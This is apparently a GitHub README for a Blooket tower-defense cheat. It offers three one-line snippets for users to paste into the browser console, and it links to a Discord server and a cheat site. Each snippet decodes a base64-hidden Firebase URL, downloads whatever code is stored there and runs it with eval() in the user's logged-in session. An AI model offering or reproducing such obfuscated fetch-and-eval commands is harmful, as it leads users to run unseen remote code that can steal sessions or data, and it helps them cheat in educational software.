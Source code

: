 **Discord server: https://discord.gg/K5xUbuDqmG**

**These bookmarklets are also on: https://schoolcheats.net/blooket**

# tower-defense

This cheat only works in tower defense game mode!

# changeGameRound.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90ZENoYW5nZUdhbWVSb3VuZC5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

# clearEnemies.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90ZENsZWFyRW5lbWllcy5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

# getCash.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90ZEdldENhc2guanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```
